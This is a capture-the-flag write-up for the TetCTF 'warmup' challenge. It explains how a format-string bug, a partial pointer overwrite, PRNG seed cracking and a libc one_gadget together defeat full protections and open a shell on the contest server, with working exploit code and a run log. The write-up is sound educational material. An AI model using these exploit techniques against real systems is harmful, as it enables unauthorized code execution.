


# warmup
## slopey | 1/2/2020

TL;DR: Use FSB to modify money pointer to point to the global pointer to the feedback buffer and modify value at global pointer to stack address to get RIP control.

## Background
We are given a binary which lets us play a gambling game.
```
[slopey@mariner Warmup]$ ./warmup
How much money you want? 123123123
Player name: frog
**************************************************
Danh de ra de ma` o? =]]                         *
**************************************************
frog                                             *
**************************************************
Round: 1
Your money: 123123123 ZWD
Your bet (= 0 to exit): 12345
Your choice: 565656
Lucky number: 504500420
Round: 2
Your money: 18446744072406804667 ZWD
Your bet (= 0 to exit): 0
Game Over
Your money: 18446744072406804667 ZWD
Send to author your feeback: good game frog
Thank for your feedback
```
Let's check the securities:
```
[slopey@mariner Warmup]$ checksec warmup
[*] 'warmup'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
The binary has every protection enabled and is 64 bit. This will make writing exploits much more difficult. Let's begin reverse engineering and figure out where the vulnerability is.
## Reversing
### handler


The main logic of the code happens in the `handler` function. The `handler` function makes two allocations on the heap. The first is for a buffer called `feedback` which is where the user's feedback for the game at the end is stored. The second allocation is for a `Game` structure, which can be represented like so:

| Type       | Variable | Size |
| ---------- | -------- | ---- |
| ulong *    | money    | 0x8  |
| char[0x80] | name     | 0x80 |

The `name` buffer, as we will see later, is where the player's name is going to be stored. Note that the pointer to this Game structure is on the stack, but the actual structure is on the heap. This will be important later.

### gamble



The `gamble` function is where the logic of the game is located. We can see that it seeds the PRNG generator with 3 random bytes. Note that this number is small enough to brute force. Since there are at most 0xffffff possible seeds (around 16 million), we can create a hash table locally to guess the seed.

Another important piece of information here is the `print_name` function. This is where the FSB bug occurs. Before we analyze that, let's also look at the REPL portion of the `gamble` function.


Essentially, every round, we pick a number to *bet* and a number to *guess*. If the number we guess is equal to the randomly generated number, the amount we bet *plus* another random number is added to our balance. Otherwise, this sum is subtracted from our balance.

### print_name



The `print_name` function simply prints the parameter, and adds decoration symbols. This is where the vulnerability of the program occurs. As you can see, `printf` is called on `param_1` without any format strings, leading to an arbitrary read and write.

## Exploitation

However, exploiting this program isn't so clear-cut. There are a number of obstacles, despite the obvious vulnerability:
1. **Full RELRO:** Typically with FSB challenges, you can simply modify the GOT table, but this technique won't work here because Full RELRO is enabled.
2. **PIE Enabled:** Even if RELRO was partial, the other problem is that we don't know any addresses! Even though the FSB leads to an arbitrary read so we can calculate the PIE base, this leads to the biggest problem:
3. **One-shot printf:** The biggest problem is that the faulty printf is only called once. This means that we will have to do essentially a blind write into memory... right?

I was unable to find a solution during the contest to these issues, but after the contest ended and I read a few writeups and saw other exploits, the following is the solution I ended up using.

The key observation is that in PIE, the lower byte is not random. (This is also true for LIBC). The last byte of any random PIE base is always 0x00, so we know the last byte of any address with absolute certainty. Therefore, we can perform a *relative write.* The idea is that the pointer to Game struct on the heap is located on the stack. Therefore, we can modify bytes at the value pointed to by the Game pointer. The first 8 bytes of the Game pointer is the pointer to our money. Now, here is the key thing: we can modify the lower byte of the money pointer to any address nearby with the same first 7 bytes.

As I mentioned earlier, PIE doesn't randomize the last byte of an address. We can abuse this behaviour to modify the money pointer to instead point to the feedback buffer. This is possible because the money and feedback variables are both global variables, and are therefore stored in the BSS section. Since they are the only global variables, they are stored next to each other and therefore most likely have the same first 7 bytes. Since we know the last byte of any PIE address with absolute certainty, and since these two variables have the same first 7 bytes, PIE is defeated here, and our blind write isn't so blind anymore.

The reason why this is useful is because at the end of the program, we can write 0x400 bytes into the `feedback` buffer. While the `feedback` buffer points to a place on the heap, using the FSB we can change the value of the `feedback` pointer to point instead to the stack, and we can easily get 0x400 bytes of buffer overflow.

Now let's actually implement this.

## Stack leak

Let's set a breakpoint right before we call the faulty printf and inspect the stack to see what values we can leak.
```
gef➤  x/30gx $rsp
0x7fffffffe790: 0x0000000000000000  0x00005555556036b8
0x7fffffffe7a0: 0x0000555555400b00  0x0000000000000000
0x7fffffffe7b0: 0x00007fffffffe810  0x0000555555400e9f
0x7fffffffe7c0: 0x0000000000000000  0x00005555556036b0
0x7fffffffe7d0: 0x0000000000000000  0x0000000000000000
0x7fffffffe7e0: 0x0000000000000001  0x0000000000000000
0x7fffffffe7f0: 0x0000000000000000  0x1dd425cf309cd800
0x7fffffffe800: 0x00007fffffffe830  0x0000000000000000
0x7fffffffe810: 0x00007fffffffe830  0x00005555554010c3
0x7fffffffe820: 0x0000000000000000  0x00005555556036b0
0x7fffffffe830: 0x00007fffffffe840  0x00005555554011c2
0x7fffffffe840: 0x00005555554011d0  0x00007ffff7e0b152
0x7fffffffe850: 0x00007fffffffe938  0x00000001f7e0af73
0x7fffffffe860: 0x00005555554011aa  0x0000000800000000
0x7fffffffe870: 0x0000000000000000  0xba0a0162f009b880
```

We are looking for three things:
1. LIBC leak for our one gadget later
2. Stack leak for determing what we overwrite the value of the feedback pointer to
3. Game pointer to determine where our FSB needs to write to

Here is the libc leak:
```
gef➤  x/gx 0x00007ffff7e0b152
0x7ffff7e0b152 <__libc_start_main+242>: 0x4800017de7e8c789
```
Here is the stack leak:
```
gef➤  x/gx 0x00007fffffffe810
0x7fffffffe810: 0x00007fffffffe830
```
And here is the address and value of the Game pointer:
```
gef➤  x/gx 0x00005555556036b0
0x5555556036b0: 0x0000555555602050
```
I am using a program called retsync which syncs GDB and ghidra, so I can print the symbol names like so:
```
gef➤  bx/gx feedback
0x555555602058: 0x00005555556032a0
gef➤  bx/gx money
0x555555602050: 0x000000000000007b
```
As you can see, the money and feedback pointers are right next to each other. We simply need to modify the lower byte of money, 0x50, to 0x58. Then, any money we make off of gambling will overwrite the value in the feedback pointer.

Also, let's throw in a PIE leak as well, since it might make debugging a lot easier. The PIE leak's value is 0x0x0000555555400e9f.

Using this information, we can construct our payload for the FSB attack:
```py
r.recvuntil("Player name: ")
# Stack Offsets:
# 10: stack
# 11: PIE
# 13: Game pointer
# 29: libc
payload = "%{}c%{}$hhn %{}$lx %{}$lx %{}$lx".format(0x58, 13, 10, 11, 29)
r.sendline(payload)

# Format String Leaks
r.recvuntil("\xa3 ")
# Stack leak
stack_leak = int.from_bytes(bytes.fromhex(r.recv(12).decode()), "big")
stack_target = stack_leak + 0x2a
r.recv(1)

# PIE leak
pie_leak = int.from_bytes(bytes.fromhex(r.recv(12).decode()), "big")
pie_base = pie_leak - 0xe9f
r.recv(1)

# LIBC leak
libc_leak = int.from_bytes(bytes.fromhex(r.recv(12).decode()), "big")
libc.address = libc_leak - 0x20840

# logging
log.info("RET addr leaked at {}".format(hex(stack_target)))
log.info("PIE base leaked at {}".format(hex(pie_base)))
log.info("LIBC base leaked at {}".format(hex(libc.address)))
```
Note that I add 0x2a bytes to the stack leak. This is because I want to make the stack target the return address of the `handler` function. The idea is that we set the value of the feedback pointer to point to the return address of the `handler` function, so we can easily control code execution.

## Gambling
Now that we have set the money pointer to point to the feedback pointer, we can modify the value at the feedback pointer by gambling. To do this, we need to have a mechanism for cracking the seed. I wrote a program in C to generate a hash table that we can then use to predict random numbers.
```c
#include <stdlib.h>
#include <stdio.h>

int main()
{
    FILE *map = fopen("map.bin", "wb");
    for (int i = 0; i < 0x1000000; i++)
    {
        if (i % 0x100000 == 0)
            printf("%d results computed\n", i);
        srand(i);
        int random1 = rand();
        rand();
        int random2 = rand();
        fwrite(&random1, sizeof(int), 1, map);
        fwrite(&random2, sizeof(int), 1, map);
    }
    fclose(map);
    return 0;
}
```

Something to note here is that I have a junk call to rand after random1. I do this because if you recall, the program also adds or subtracts a random number to our balance depending on whether or not we won, so effectively it mutates the state of the PRNG again. It is significantly easier to get the lucky number than calculate how much was subtracted from our balance, since the program prints the random number.

Also, we need two random numbers for every possible seed because there are multiple collisions in the hash table if we only have one number. This is because there are 0x1000000 possible seeds but only 0x10000 possible numbers, so having two numbers makes it very unlikely for there to be a collision. 

I wrote a quick API in Python to extract these numbers:

```py

from ctypes import CDLL
libc_obj = CDLL("libc.so.6")


def find_seed(num1, num2):
    with open("map.bin", "rb") as f:
        for i in range(0x1000000):
            if i % 0x100000 == 0:
                log.info("{} candidates searched".format(i))
            candidate1 = int.from_bytes(f.read(4), "little")
            candidate2 = int.from_bytes(f.read(4), "little")
            if candidate1 == num1 and candidate2 == num2:
                return i
    return None


def srand(seed):
    libc_obj.srand(seed)
    rand()
    rand()
    rand()


def rand():
    return libc_obj.rand()
```

I technically could've done everything in Python, but C is cool :P Also, note that I have 3 junk calls to rand in my srand function. This is because it takes 3 calls to rand to guess the seed. Now, with a working seed cracker, we can write some code to set our balance exactly to the stack address.

First, I have a small API function to interact with the binary:
```py
def gamble(r, bet, guess):
    r.recvuntil("Your money: ")
    money = int(r.recvuntil(" "))
    r.recvuntil("exit): ")
    r.sendline(str(bet))
    r.recvuntil("choice: ")
    r.sendline(str(guess))
    r.recvuntil("Lucky number: ")
    lucky_num = int(r.recvline())
    return money, lucky_num
```

I use it here to set our balance to stack target.
```py
_, rand1 = gamble(r, 1, 0)
money, rand2 = gamble(r, 1, 0)
log.info("Found two rands: {}, {}".format(rand1, rand2))
seed = find_seed(rand1, rand2)
srand(seed)
log.info("Computed seed: {}".format(seed))

# now we know the next two calls to rand! let's figure out how much we should bet
# how much money we have right now:
# final_money = money - rand() - 1
money -= rand() - 1
# target_money = money + bet + rand()
# bet = target_money - money - rand()
lucky_number = rand()
bet = stack_target - money - rand()
_, _ = gamble(r, bet, lucky_number)
```
Finally, we have control over the feedback pointer! Now, whatever we provide as feedback will be our return address in the `handler` function.

## Code Execution
This part is simple. I use one_gadget to generate some potential gadgets:
```
[slopey@mariner Warmup]$ one_gadget libc-2.23.so
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
I found that the second gadget worked consistently for me. The final steps in our exploit:
```py
# RIP CONTROL!!!
r.recvuntil("exit): ")
r.sendline("0")
r.recvuntil("feeback: ")
one_shot = p64(libc.address + 0x4527a)
r.sendline(one_shot)

r.interactive()
```
And we get our flag :)
```
[+] Opening connection to 192.46.228.70 on port 32337: Done
[*] RET addr leaked at 0x7ffd1f4f05ea
[*] PIE base leaked at 0x55d970db4000
[*] LIBC base leaked at 0x7fa7857ef000
[*] Found two rands: 1912167422, 290382100
[*] 0 candidates searched
[*] 1048576 candidates searched
[*] 2097152 candidates searched
[*] 3145728 candidates searched
[*] 4194304 candidates searched
[*] 5242880 candidates searched
[*] 6291456 candidates searched
[*] 7340032 candidates searched
[*] 8388608 candidates searched
[*] 9437184 candidates searched
[*] 10485760 candidates searched
[*] 11534336 candidates searched
[*] 12582912 candidates searched
[*] Computed seed: 13574108
[*] Switching to interactive mode
Thank for your feedback
$ cat /home/warmup/flag
TetCTF{viettel: *100*311267385452644#}
```
